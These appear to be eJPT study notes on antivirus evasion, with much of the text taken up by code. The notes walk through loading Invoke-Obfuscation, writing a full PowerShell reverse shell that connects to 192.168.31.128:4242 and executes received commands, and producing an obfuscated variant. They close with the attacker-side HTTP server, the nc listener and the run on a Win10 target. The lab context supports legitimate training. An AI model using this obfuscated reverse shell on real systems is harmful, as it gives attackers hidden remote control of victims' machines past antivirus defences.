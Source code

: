 * Run `pwsh`

```bash
pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```

* Create the reverse PowerShell script in a new file
  * PowerShell Reverse Shell code will be

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

* Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```

* Run the `obfuscated.ps1` file on the Win10 VM
* Back on the Kali VM check the PowerShell reverse shell
